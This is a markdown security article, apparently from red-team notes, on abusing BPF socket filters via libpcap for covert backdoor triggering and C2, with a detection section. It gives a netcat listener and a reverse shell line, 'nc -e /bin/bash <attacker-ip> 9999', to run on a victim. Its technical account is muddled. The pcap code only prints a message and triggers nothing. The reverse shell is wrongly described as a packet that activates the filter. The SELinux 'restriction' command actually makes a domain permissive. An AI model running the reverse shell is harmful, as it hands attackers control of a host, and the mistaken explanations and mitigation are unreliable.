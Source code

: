 ```yaml
---
title: Traffic Signaling:- Socket Filters in C2
category: Persistence
tags: [Traffic Signaling (T1205.001)]
---
```


Socket filters provide a mechanism at the kernel level for filtering, managing, and controlling network traffic. By using these filters, network administrators, security software, and even adversaries can craft controlled network communication pathways by selectively allowing or blocking traffic based on specific criteria.

Socket filters operate by attaching filters—typically using the **Berkeley Packet Filter (BPF)**—to network sockets. This enables the system to inspect, modify, and selectively process data packets as they flow through. With this setup, socket filters can analyze packet headers, payloads, and metadata, enabling decisions based on factors like IP addresses, port numbers, and protocols.

## Socket Filters for Backdoor Activation
#### **Initial Compromise and Filter Setup**

Once an adversary compromises a system, they may seek to maintain persistence through a covert backdoor or C&C channel. To do this, they can attach a custom socket filter to the network interface using tools like **libpcap** or **Winpcap** (Windows), or by directly using **setsockopt** with the **SO_ATTACH_FILTER** option. This socket filter allows the adversary to selectively monitor and intercept network traffic to and from the compromised system.

***Example:*** an adversary may install a filter on **eth0** (the primary network interface) to monitor TCP traffic on a specific port (e.g. 9999), which they’ll later use to communicate with a reverse shell or to send commands.

**libpcap-dev installation**
   `sudo apt install libpcap-dev`

    #include <pcap.h>
    #include <stdio.h>
    #include <stdlib.h>
    
    // Declare the packet handler function before main
    void packet_handler(u_char *user_data, const struct pcap_pkthdr *pkthdr, const u_char *packet);
    
    int main() {
        char errbuf[PCAP_ERRBUF_SIZE];
        pcap_t *handle;
    
        // Open network interface for packet capture
        handle = pcap_open_live("enp0s3", BUFSIZ, 1, 1000, errbuf); // Adjust the interface name
        if (handle == NULL) {
            fprintf(stderr, "Error opening device: %s\n", errbuf);
            return 1;
        }
    
        // Set a filter for TCP traffic on port 9999 (reverse shell port)
        struct bpf_program fp;
        char filter_exp[] = "tcp port 9999";
        if (pcap_compile(handle, &fp, filter_exp, 0, PCAP_NETMASK_UNKNOWN) == -1) {
            fprintf(stderr, "Error compiling filter\n");
            return 1;
        }
        if (pcap_setfilter(handle, &fp) == -1) {
            fprintf(stderr, "Error setting filter\n");
            return 1;
        }
    
        // Start capturing packets, invoking the packet handler on each match
        printf("Listening for traffic on port 9999...\n");
        pcap_loop(handle, 0, packet_handler, NULL);
    
        // Close the capture handle after the loop finishes
        pcap_close(handle);
        return 0;
    }
    
    // Define the packet handler function
    void packet_handler(u_char *user_data, const struct pcap_pkthdr *pkthdr, const u_char *packet) {
        // Print out some basic info about the captured packet
        printf("Captured a packet matching the filter!\n");
        printf("Packet Length: %d bytes\n", pkthdr->len);
    
        // Simulate reverse shell activation
        printf("Simulating reverse shell activation...\n");
    
        // Additional actions can be triggered here based on packet contents
    }


This code uses **libpcap** to set a filter that monitors for TCP packets on port 9999. The adversary could tailor the filter to match specific conditions, ensuring that only traffic related to their backdoor is processed. Once the filter is set, no immediate actions will be visible, which makes detection harder.

**Compile the program**
   `gcc -o packet_capture packet_capture.c -lpcap`

**Run the program**
   `sudo ./packet_capture`


#### **2. Sending Crafted Packets to Trigger Reverse Shell**

Once the filter is active, the adversary can send a specially crafted packet to the compromised system that matches the filter criteria (i.e., TCP traffic on port 9999). This packet would not just match the filter but also trigger a **reverse shell** or **command invocation** based on the filter's configured actions.

For instance, using **netcat** or another tool, the attacker may initiate a reverse shell connection through the specified port:


**Set up the Reverse Shell Listener on adversary**
   `nc -lvnp 9999`


***Send a Packet to Trigger the Filter on victim machine***
`nc -e /bin/bash <attacker-ip> 9999` 

This command establishes a reverse shell to the attacker's machine, and since the filter is set to listen on port 9999, it will trigger the reverse shell activation when the packet is received.

#### **3. Triggering Command Shell or Implant Installation**

In this example, the filter could be used to trigger additional actions, such as:

-   **Installing a backdoor** or **implant** on the system.
-   **Command and control (C&C)**: Using the reverse shell to send further commands, enabling remote manipulation of the system.

The filter could be crafted to not just passively monitor traffic but to activate certain system features when certain types of packets are detected. This makes the attack highly stealthy, as there is minimal traffic to attract attention, and the filter's actions are only triggered under specific conditions.

#### **4. Evasion and Low Detection Risk**

Since the socket filter is designed to operate with minimal system overhead, its activity is difficult to detect. It is typically lightweight and does not involve complex processes that could raise suspicion. Additionally, because the socket connection is not activated until the filter receives a matching packet, there is limited activity on the host, making it hard to identify the attack.

The lack of visible network activity and the use of low-overhead socket operations mean that traditional network monitoring tools or IDS systems that rely on frequent traffic inspection may fail to detect the exfiltration or reverse shell activation.

### **Detection and Mitigation Techniques**

#### **A. Monitoring and Auditing Network Interfaces**

To detect the use of socket filters for covert backdoor activations, network administrators can monitor for suspicious BPF programs or unusual socket activity. Tools like **bpftool** can list active BPF programs attached to network interfaces, which can help identify abnormal or unauthorized filters.


**Check for BPF programs attached to network interfaces**
`sudo bpftool prog show` 

This can identify any filters that have been installed on the system, such as those attached to port 9999 for reverse shell activation.

#### **B. Inspecting Network Traffic**

Adversary-driven packet filters often utilize hidden or non-standard ports for command and control. By analyzing network traffic for deviations from normal patterns—such as traffic on uncommon ports or with unusual packet characteristics—defenders can identify potential exfiltration or C&C activity.

For example, using **tcpdump** to capture traffic on port 9999 can help detect attempts to trigger backdoors or implants.


***Capturing traffic on port 9999***
`sudo tcpdump -i eth0 port 9999`

#### **C. Kernel Auditing and System Integrity Checks**

Monitoring the integrity of the system kernel can help detect unauthorized filter installation. Using kernel auditing tools like **auditd** and monitoring for the loading of suspicious BPF programs or network-related system calls can provide early warning signs of an attack.

#### **D. Restricting Socket Filter Usage**

Restricting access to the ability to attach socket filters can help prevent adversaries from deploying them. Using system hardening techniques, such as configuring **SELinux** or **AppArmor**, can limit access to the relevant system calls or BPF functionalities.

***SELinux policy to restrict BPF program usage***

`semanage permissive -a bpfilter_t` 

#### **E. EDR**

Advanced EDR tools can help detect unusual processes and activities associated with backdoor activation, such as the sudden spawning of reverse shells or unusual socket connections. By correlating event logs and monitoring for anomalous behavior, defenders can identify and respond to attacks more effectively.

### **Conclusion**

The use of socket filters for covert backdoor activation and command and control is a powerful evasion technique used by adversaries. By exploiting ***libpcap*** or ***Winpcap***, attackers can create custom filters that monitor specific traffic and trigger malicious actions, such as reverse shells or implant installations, when certain criteria are met. Defenders must be vigilant in monitoring network interfaces, analyzing traffic patterns, and implementing security measures to detect and mitigate such attacks before they can cause damage.

